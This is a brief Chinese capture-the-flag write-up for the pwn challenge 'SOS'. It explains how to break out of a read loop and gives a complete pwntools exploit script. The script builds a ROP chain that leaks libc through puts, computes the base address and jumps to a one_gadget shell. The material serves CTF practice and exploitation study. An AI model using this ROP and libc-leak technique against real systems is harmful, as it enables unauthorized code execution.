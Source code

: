 https://xz.aliyun.com/t/3472#toc-10

师傅已经讲的很清楚了，原来这题也不难Orz

重点是如何退出循环...这里查到让read()返回0可以用pwntools的`p.shutdown('send')`,可是就无法再进行交互了，也就是断开交互连接了

不要说可以用一次，就算可以执行起执行起shell也没法交互

所以用了逻辑的另一个退出，当read返回-1，因为buf在地址中不断增长，当写到不可写地址时，read就会报错

解决了退出这题就没啥了

```python
from pwn import *

bin = ELF("SOS")
libc = ELF("libc-2.27.so")
p = bin.process()

context.terminal = ["terminator","-e"]
context.log_level = "debug"

def Debug(cmd=""):
    gdb.attach(p,cmd)
    pause()

pop_rdi_ret = 0x0000000000400c53 # pop rdi ; ret
pop_rsi_r15_ret = 0x0000000000400c51 # pop rsi ; pop r15 ; ret

payload = cyclic(0x38)
payload += p64(pop_rdi_ret)
payload += p64(bin.got["puts"])
payload += p64(bin.plt["puts"])
payload += p64(0x400afc)
p.sendlineafter("size: \n","0")
p.sendlineafter("code: \n",payload)
while True:
    libc_address = p.recvline(timeout=1).strip()
    p.info('receiving..')
    if len(libc_address) > 4:
        break
    p.send('0' * 0x1000)
libc.address = u64(libc_address.ljust(8,"\x00"))-0x72a40
success("libc.address-->"+hex(libc.address))
p.sendlineafter("size: \n","0")
p.sendlineafter("code: \n",cyclic(0x38)+p64(libc.address+0x45200))
for i in range(3):
    recved = p.recvline(timeout=1)
    p.info('sending..')
    if len(recved) > 4:
        break
    p.send('ls;' + '\x00' * 0x1000)
p.interactive()
```


